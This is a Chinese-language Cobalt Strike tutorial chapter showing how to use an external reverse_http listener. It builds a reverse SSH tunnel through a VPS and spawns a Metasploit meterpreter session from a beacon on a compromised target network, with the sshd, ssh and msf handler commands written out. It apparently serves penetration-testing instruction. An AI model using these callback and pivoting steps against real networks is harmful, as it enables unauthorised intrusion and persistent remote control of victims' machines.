



> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/11.html](http://book.iwonder.run/Tools/Cobalt Strike/11.html)

## windows/foreign/reverse_http [ 反向 http 外部监听器 ]

> 所谓的外部监听器,说白点就是为了更方便的去配合其它的一些渗透工具进行协同渗透而设计的,相信有些朋友可能对 metasploit 或者 empire [ 心里话,个人觉得它很垃圾,也极少用,一般都直接是把里面的 powershell 脚本单独抠出来用 ] 比较熟悉,平时可能也比较喜欢拿他们去做些内网渗透工作,那么现在问题来了,比如,我现在通过其它方式已经拿到了目标内网一台机器的 beacon shell,但由于 CobaltStrike 自身内置的相关内网渗透功能太少,我还是想用 msf 或者 empire 继续去渗透目标内网,该怎么办呢? 这时候 CobaltStrike 的外部监听器就开始发会作用了,我们可以通过 beacon 内置的派生功能,直接通过 ssh 隧道派生一个 meterpreter 到自己本地的 msf 上,过程非常简单,具体操作如下
> 
> 首先,我们需要先把本地和自己 vps 的之间的 ssh 隧道打通,因为等会儿要把派生的那个流量通过 ssh 隧道直接转发到我本地,第一步,连到自己的 vps 上,编辑 ssh 服务配置文件开启 ssh 转发功能,之后重启 ssh 服务,此处一定要记得重启服务之后它才能生效,如下

```
# egrep "AllowTcpForwarding yes|GatewayPorts yes|TCPKeepAlive yes|PasswordAuthentication yes" /etc/ssh/sshd_config 
```


> 之后回到本地 linux 机器上,开始尝试和自己的 vps 建立 ssh 隧道,并执行如下转发[-R 即所谓的从远程转发到本地],下面这条 ssh 命令的意思就是通过 207.148.75.85[vps]这台机器把来自外部的 8080 端口的流量都转发我们本地的 192.168.3.57 这个地址的 8081 端口上,这样一来,当别人去连 207.148.75.85 的 8080 端口就相当于直接连到了我本地的 192.168.3.57 这个地址的 8081 端口上,而本地的 192.168.3.57 的 8081 端口又正好是我们事先准备好的 msf 监听器,这才直接导致了公网的 meterpreter 也可以直接在本地的 msf 中上线

```
# ssh -C -f -N -g -R 0.0.0.0:8080:192.168.3.57:8081 root@207.148.75.85 -p 22
# ps -ef | grep "192.168.3.57" 
```


> Ssh 隧道打通以后,可以去 vps 上看下端口到底有没有起来,不要弄了半天不上线,才发现原来端口都没起来,岂不尴尬

```
# netstat -tulnp 
```



> 有了 ssh 隧道,剩下的事情就很简单了,新建一个外部监听器,特别注意这个协议和端口,有很多人不上线都是因为这个协议不匹配或者端口弄错了,此处我们用外部监听器中的 reverse_http,端口用 8080,这儿既然用了 http 8080,那么后面的 meterpreter payload 也一定要用 http 和 8080 端口,不然两边端口对不上,协议又不匹配,数据无法实现交换,是不可能上线的,所以,这个地方务必要特别仔细小心




> 比如,我们现在想通过弹回来的这个 beacon shell,再弹回一个 meterpreter 好去进行内网渗透,就可以利用 beacon 内置的"spawn"[派生]功能,将其派生到指定的外部监听器上,刚才忘了说,外部监听器的流量不再是弹到自己的 CobaltStrike 团队服务器上,而是直接弹到指定的远程机器的指定端口上的




> 这样一来,当我们选择外部监听器进行派生时,流量就会被弹到我们指定的 ip 和端口上,比如,此处是弹到我们 vps 的 8080 端口上,而我们事先又已经通过 ssh 隧道将 vps 的 8080 端口的流量直接转到了我本地的 192.168.3.57 的 8081 端口上,所以最终实现的效果便是来自己公网的 meterpreter 直接在自己本地上线了,不过相比正常弹回的 meterpreter,这样过来的 meterpreter 会明显感觉有些慢,另外,这样做的好处就在于,不会轻易的把 beacon shell 给搞掉,更保险一点,实际效果如下

```
msf5 > use exploit/multi/handler
msf5 > set payload windows/meterpreter/reverse_http
msf5 > set lhost 192.168.3.57
msf5 > set lport 8081
msf5 > set exitonsession false
msf5 > exploit -j
msf5 > sessions -i 1
meterpreter > sysinfo
meterpreter > getuid 
```


